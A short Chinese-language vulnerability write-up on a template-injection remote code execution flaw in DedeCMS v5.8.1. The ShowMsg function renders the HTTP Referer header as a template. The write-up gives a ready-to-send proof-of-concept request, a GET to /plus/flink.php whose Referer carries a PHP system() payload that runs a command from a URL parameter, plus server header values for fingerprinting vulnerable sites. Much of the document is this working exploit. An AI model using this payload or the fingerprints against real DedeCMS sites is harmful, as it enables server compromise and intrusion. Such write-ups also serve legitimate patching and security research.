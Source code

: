 下载地址:https://github.com/dedecms/DedeCMS/releases/tag/v5.8.1

# 漏洞分析:

在include\common.func.php文件中的ShowMsg函数存在模板注入

![image-20211005205555263](images/image-20211005205555263.png)

`$gourl = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : '';`

从Referer头中取值，然后进行渲染，造成RCE

```php
$tpl = new DedeTemplate();
$tpl->LoadString($msg);
```

![image-20211005205610377](images/image-20211005205610377.png)

# POC

```http
GET /plus/flink.php?dopost=save&c=whoami HTTP/1.1
Host: 10.211.55.3
Referer: <?php "system"($c);die;/*
```

使用了ShowMsg函数,且参数为-1的文件，均可造成RCE

![image-20211005205622495](images/image-20211005205622495.png)

![image-20211005210526927](images/image-20211005210526927.png)

cms特征

```php
header('Server:2G3N3M3N2F2P35');
header('X-Powered-By:3B5655563A4147');
```



# 参考文章:

https://srcincite.io/blog/2021/09/30/chasing-a-dream-pwning-the-biggest-cms-in-china.html

